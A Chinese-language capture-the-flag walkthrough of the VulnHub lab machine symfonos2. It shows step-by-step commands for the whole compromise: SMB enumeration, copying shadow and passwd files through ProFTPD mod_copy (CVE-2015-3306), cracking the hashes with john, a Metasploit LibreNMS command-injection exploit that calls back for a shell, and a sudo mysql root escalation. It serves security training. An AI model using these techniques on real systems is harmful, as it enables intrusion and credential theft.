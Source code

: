 # symfonos2-WalkThrough

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

**靶机地址**
- https://www.vulnhub.com/entry/symfonos-2,331/

**Description**

OSCP-like Intermediate real life based machine designed to teach the importance of understanding a vulnerability. SHOULD work for both VMware and Virtualbox.

**知识点**
- smb 信息探测
- CVE-2015-3306
- CVE-2018-20434
- shadow 密码爆破

**实验环境**

`环境仅供参考`

- VMware® Workstation 15 Pro - 15.0.0 build-10134415
- kali : NAT 模式,192.168.141.134
- 靶机 : NAT 模式

---

# 前期-信息收集

开始进行 IP 探活

```bash
nmap -sP 192.168.141.0/24
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/1.png)

排除法,去掉自己、宿主机、网关, `192.168.141.149` 就是目标了

扫描开放端口
```bash
nmap -T5 -A -v -p- 192.168.141.149
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/2.png)

21、22、80、139、445

怎么又有 smb,枚举下 smb 试试
```bash
enum4linux 192.168.141.149
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/3.png)

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/4.png)

找到一个 `/anonymous` 文件夹和 2个用户,进去看看文件
```bash
smbclient //192.168.141.149/anonymous -U % -N
ls
cd backups\
ls
get log.txt
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/5.png)

查看下 log.txt 可以发现很多线索

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/6.png)

开头告诉你 shadow 内容在 backups 目录下,然后后面是 smb 的配置,有个密码

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/7.png)

然后开始看 ftp 的配置,配置文件说明了是 ProFTPD 程序，还告诉你有个 aeolus 账号

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/8.png)

想起来之前 nmap 扫描 FTP 得到的版本号是 1.3.5,也许可以找找漏洞
```bash
searchsploit -w proftpd 1.3.5
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/9.png)

这3个都一样,漏洞编号为 CVE-2015-3306,但是这个漏洞只是可以复制文件,并不能直接进行命令执行,并且需要知道目标路径

---

# 中期-漏洞利用

这里我们从 log.txt 中可以得知 anonymous 用户的实际路径为 `/home/aeolus/share`,加上开头告诉你 shadow 文件在 backup 目录下,接下来就尝试将 backup目录下的 shadow 复制到 anonymous 用户目录下

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/10.png)

```bash
ftp 192.168.141.149
site cpfr /var/backups/shadow.bak
site cpto /home/aeolus/share/shadow.txt
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/11.png)

成功了,上 smb 下载下来
```bash
smbclient //192.168.141.149/anonymous -U % -N
ls
get shadow.txt
exit
cat shadow.txt
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/12.png)

下面用同样的方式下载 passwd 文件
```bash
ftp 192.168.141.149
site cpfr /etc/passwd
site cpto /home/aeolus/share/passwd.txt

smbclient //192.168.141.149/anonymous -U % -N
get passwd.txt
exit

mkdir /root/.john
cp passwd.txt /root/.john
cp shadow.txt /root/.john
cd /root/.john
unshadow passwd.txt shadow.txt > hash.txt
cat hash.txt
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/13.png)

使用 john 开始跑 hash
```bash
gunzip /usr/share/wordlists/rockyou.txt.gz
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/14.png)

只跑出 aeolus 一个用户的密码,使用这个凭证成功 SSH 上去
```
aeolus  sergioteamo
```

找找提权的可能
```bash
uname -a
sudo -l
find / -perm -u=s 2>/dev/null
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/15.png)

没成功,看看 web 方面

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/16.png)

又是啥都没有,直接翻 web 配置文件看看
```bash
cd /etc/apache2
cat apache2.conf
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/17.png)

看看这个端口监听文件
```bash
cat ports.conf
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/18.png)

端口 8080 有个无法从外部访问的网站,端口转发一下
```bash
socat TCP-LISTEN:5000,fork,reuseaddr tcp:127.0.0.1:8080
```

现在 8080 可以通过 5000 端口访问

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/19.png)

找找有没有可利用的漏洞
```bash
searchsploit -w librenms
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/20.png)

看了下,需要认证,结果用 aeolus  sergioteamo 可以登上去,那就用 msf 模块试试

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/21.png)

```bash
msfconsole
search librenms
use exploit/linux/http/librenms_addhost_cmd_inject
set RHOST 192.168.141.149
set LHOST 192.168.141.134
set PORT 5000
set USERNAME aeolus
set PASSWORD sergioteamo
run
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/22.png)

---

# 后期-提权

寻找提权利用点
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
sudo -l
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/23.png)

可以在 gtfobin 找到 mysql 提权的方法 https://gtfobins.github.io/gtfobins/mysql/
```
sudo mysql -e '\! /bin/sh'
```

![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos2/24.png)

提权成功,感谢靶机作者 Zayotic,和 mzfr 分享的 writeup
